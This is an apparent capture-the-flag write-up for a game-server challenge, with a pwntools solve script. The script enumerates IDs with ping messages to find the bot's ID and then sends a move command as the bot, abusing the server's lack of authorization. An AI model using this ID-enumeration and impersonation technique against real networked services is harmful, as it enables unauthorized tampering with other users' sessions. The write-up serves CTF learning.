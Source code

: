 ```yaml
---
created: 2024-08-02T18:24
updated: 2024-08-04T13:59
solves: 48
points: 338
---
```


The game goes like this.

1. Both players move with `PID|M|1;` (bot stops at position 3)
2. Game starts
3. Use `PID|S;` to shoot.
4. If both players are on the same position and that position is not 3, we win.

Obviously we have to move the bot away from 3 somehow.
To do this however we have to obtain the bot's id.

Retrying over and over again to hit a lucky id is not likely and probably very slow, so I will use the ping feature to find the bot's id.

We will ping every number until the server responds with `Pong`, ignore our own id, and we will get the bot's id.

We will then move our player and the bot by `1`, and then shoot.

## solve script

```python
import time
from pwn import *
context.log_level = "error"


def find_bot_id(s, pid):
    for i in range(100):
        s.send(f"{i}|P;".encode())
        data = s.recvuntil(b";", drop=True)
        if b'Pong' in data:
            print("ping found", i)
            if pid != i:
                return i


s = remote("challs.tfcctf.com", port=31994)
s.send(b"N|kumo;")
LAST_PING_TIME = time.time()
PLAYER_ID = -1
BOT_ID_GUESS = 69
while True:
    if time.time() - LAST_PING_TIME > 2 and PLAYER_ID != -1:
        s.send(f"{PLAYER_ID}|P;".encode())
        LAST_PING_TIME = time.time()
    data = s.recvuntil(b";", drop=True)
    print("received", data)
    if data[:1] == b"J":
        PLAYER_ID = int(data[2:])
        print("joined as", PLAYER_ID)
    if b'M|bot|' in data:
        print("bot moved!")
        s.send(f"{PLAYER_ID}|M|1;".encode())
    if b"G" in data:
        print("started!")
        bid = find_bot_id(s, PLAYER_ID)
        s.send(f"{PLAYER_ID}|M|1;".encode())
        s.send(f"{bid}|M|1;".encode())

        s.send(f"{PLAYER_ID}|S;".encode())
    if b'S|' in data:
        print("score", data)
```
